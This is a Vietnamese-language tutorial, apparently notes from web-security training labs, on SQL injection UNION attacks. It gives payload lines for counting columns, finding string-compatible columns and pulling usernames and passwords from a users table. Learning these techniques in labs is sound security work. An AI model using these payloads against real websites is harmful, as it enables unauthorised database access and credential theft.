








# SQL injection UNION attack

Khi một trang web bị dính lỗi SQL và những truy vấn đến nó được trả về kết quả thông báo được trên màn hình thì ta có thể sử dụng `UNION` để lấy dữ liệu từ các bảng khác trong DB. 

Cú pháp cơ bản như sau:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

SQL query sẽ trả về 1 kết quả với 2 giá trị. Giá trị của cột a,b trong bảng table1 và giá trị c,d trong bảng table2.

Để `UNION` query hoạt động được, ta cần phải lưu ý 2 điều kiện:
- Những query riêng lẻ phải trả về cùng một cột.
- Kiểu dữ liệu giữa các truy vấn với các cột phải đồng nhất với nhau.

Để thực hiện tấn công `UNION` ta cần tìm được:
- Có bao nhiêu cột được trả về từ truy vấn ban đầu.
- Có thể sử dụng cột nào để phù hợp với kiểu dữ liệu mà ta cần trích xuất từ bảng khác.

## Xác định số cột yêu cầu 

Có 2 cách

- Cách 1: Sử dụng lệnh `ORDER BY` và tăng dần chỉ số cột đến khi xuất hiện lỗi.

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```

Ví dụ đến khi cột 3 bị quá số lượng cột ta sẽ nhận được thông báo sau: `The ORDER BY position number 3 is out of range of the number of items in the select list.` 

- Cách 2: Sử dụng kết hợp `UNION SELECT` và giá trị `NULL` để xác định.

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

Khi số cột không khớp, ta sẽ nhận được thông báo: `All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.` 

**NOTE**
- Lý do ta sử dụng `NULL` thay cho các kiểu dữ liệu được truy xuất từ các cột là bởi vì `NULL` có thể tự chuyển đổi kiểu dữ liệu của nó cho phù hợp.
- Với DB được sử dụng là `Oracle`, tất cả các truy vấn phải sử dụng thêm `FROM` và chỉ định đến một bảng tồn tại trong DB. Có một bảng luôn được tạo sẵn trong `Oracle` đó là `dual` có thể sử dụng để thực hiện `UNION`. Query có dạng: `' UNION SELECT NULL FROM DUAL--`.
- Ta thường sử dụng comment `--` để loại bỏ phần còn lại của query ban đầu đi. Tuy nhiên ở phiên bản `MySQL` DB, sau comment cần phải có một khoảng trắng. Ta có thể sử dụng `--+ --# --%20`

LAB: 

- Ở lab này chỉ đơn giản là cần xác định được số cột của DB nên mình sẽ sử dụng nối chuỗi + UNION SELECT + NULL để xác định. 



- Và số cột xác định được là 3.


## Tìm cột có kiểu dữ liệu có tác dụng để tấn công UNION

Bởi vì ta cần truy xuất giá trị từ bảng khác, vậy ta cần phải tìm được cột có thể nhận được giá trị đó.

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Nếu không phù hợp ta sẽ nhận được thông báo: `Conversion failed when converting the varchar value 'a' to data type int.`

LAB:

- Ở lab này nâng cao hơn ở trên là mình cần phải inject được 1 đoạn text vào 1 trong các cột hiển thị của trang web. 
- Đầu tiên mình vẫn xác định số cột được trả về



- Sau khi xác định số cột là 3 mình sẽ tiếp tục tìm cột nào có dạng dữ liệu phù hợp để inject được text vào



- Cột 2 có dạng dữ liệu giống như kí tự 'a' mình thử nên có thể nó sẽ chèn được text



## Sử dụng UNION attack để lấy được những thông tin quan trọng

Giả sử ta đã biết những thông tin sau:
- Query ban đầu trả về 2 cột, cả 2 đều có kiểu dữ liệu string data.
- injection query có `WHERE`.
- DB có một bảng tên là `users` và có 2 cột `username` và `password`.

Ta có thể thực hiện tấn công như sau:

```sql
' UNION SELECT username, password FROM users --
```

Tuy nhiên với những bài tập ta sẽ không biết được tên bảng cần tìm, thậm chí là tên cột của nó. Vậy ta sẽ cần tham khảo một số cách để kiểm tra cấu trúc của DB, từ đó tìm được bảng và cột.
(`Examining the database in SQL injection attacks`)

LAB:
- Mình vẫn phải xác định số cột đầu tiên để sử dụng `UNION`.


- Sau khi biết được có bao nhiêu cột được trả về, mình cần xác định kiểu dữ liệu của từng cột.



- 

## Truy xuất nhiều giá trị ở trong một cột 

Giả sử nếu truy vấn ban đầu chỉ trả về cho ta 1 cột mà ta cần truy xuất giá trị của 2 cột, hoặc không thể lấy được giá trị trực tiếp của cột đó. Ta sẽ nối các giá trị của các bảng lại với nhau để xem trong một truy vấn.

- Ví dụ trong `Oracle` ta có thể sử dụng:

```sql
' UNION SELECT username || '~' || password FROM users--
```

Từ một cột ta có thể biết được giá trị của 2 cột `username` và `password`. Ở giữa kí tự nối `||` ta có thể sử dụng thêm một kí tự bất kì để dễ dàng xem giá trị.

> Lưu ý: Mỗi một loại DB sẽ có kiểu nối khác nhau cần xem ở [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/union-attacks)

LAB:

- Như thông thường mình vẫn sẽ tìm số cột được trả về của DB



- Sau khi biết số cột, mình sẽ xác định kiểu dữ liệu của các cột này



- Ở đây có 1 vấn đề là có 1 cột là giá trị `INT` còn 1 cột giá trị `VARCHAR` mà mình cần lấy cả tài khoản mật khẩu nên mình sẽ dùng cách truy xuất nhiều dữ liệu để hiển thị trên cùng 1 cột.




